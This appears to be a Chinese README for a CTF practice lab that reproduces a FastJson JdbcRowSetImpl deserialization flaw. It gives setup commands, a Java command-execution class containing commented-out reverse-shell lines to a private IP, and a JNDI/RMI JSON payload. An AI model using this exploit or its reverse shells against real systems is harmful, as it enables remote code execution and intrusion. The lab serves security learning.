 # FastJson-JdbcRowSetImpl

## 初心

### 在前不久的护网杯CTF比赛中，有一道Web的“easy_web”题，其实就是利用FastJson的JdbcRowSetImpl类反序列化漏洞进行Shell，然后cat Flag。一大部分人对这道题是懵逼的，没做出来，后面因护网杯题目关闭了，没有此漏洞的学习环境，所以我就写了此环境，方便大家学习交流。

## 漏洞环境构建

```
root@Bearcat:/# wget "https://github.com/iBearcat/FastJson-JdbcRowSetImpl/raw/master/FastJson_Vul.war" -P /opt/apache-tomcat-8.5.24/webapps/ && cd /opt/apache-tomcat-8.5.24/bin/ && ./startup.sh
```

![20181019](https://github.com/iBearcat/FastJson-JdbcRowSetImpl/blob/master/images/1.jpg?raw=true)

### 访问漏洞环境 http://localhost:8888/FastJson_Vul

![20181019](https://github.com/iBearcat/FastJson-JdbcRowSetImpl/blob/master/images/2.jpg?raw=true)

## 漏洞利用

### 在CommandObject.java类中的commands数组中构造想要执行的命令

### 编译 javac CommandObject.java

```
import	java.lang.Runtime;
import	java.lang.Process;
public class CommandObject {
    public CommandObject(){
        try{
			Runtime	rt	=	Runtime.getRuntime();
			//Runtime.getRuntime().exec("/bin/bash -i >&/dev/tcp/192.168.43.14/2018<&1");
			//String[] commands = {"bash -c {echo,L2Jpbi9iYXNoIC1pID4mL2Rldi90Y3AvMTkyLjE2OC40My4xNC8yMDE4PCYx}|{base64,-d}|{bash,-i}"};
			
			String[] commands = {"touch","/opt/test"}; //Command
			Process	pc = rt.exec(commands);
			pc.waitFor();
        }catch(Exception e){
            e.printStackTrace();
        }
    }
    public static void main(String[] argv){
        CommandObject e = new CommandObject();
    }
}
```

![20181019](https://github.com/iBearcat/FastJson-JdbcRowSetImpl/blob/master/images/3.jpg?raw=true)

## 漏洞利用

### 开启一个HTTP服务，并且开启 RMIServer

### 如：

```
Python2 -m SimpleHTTPServer 80
Python3 -m http.server 80
```

### 生成Payload

```
java -jar FastJson_JdbcRowSetImpl_JNDI_RMIServer.jar <HTTP服务地址> 指定RMI端口
```

### FastJson_JdbcRowSetImpl_JNDI_RMIServer.jar 会生成一串Json Payload

![20181019](https://github.com/iBearcat/FastJson-JdbcRowSetImpl/blob/master/images/4.jpg?raw=true)

```
{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://192.168.43.14:6666/Object","autoCommit":true}
```

### 把它Copy到漏洞环境的input中，然后submit进行攻击。

![20181019](https://github.com/iBearcat/FastJson-JdbcRowSetImpl/blob/master/images/5.jpg?raw=true)


### 成功执行命令，并touch test

```
String[] commands = {"touch","/opt/test"}; //Command
```
![20181019](https://github.com/iBearcat/FastJson-JdbcRowSetImpl/blob/master/images/6.jpg?raw=true)

# 致谢我的好基友

### pyn3rd https://github.com/pyn3rd
### 背影   https://github.com/yanweijin
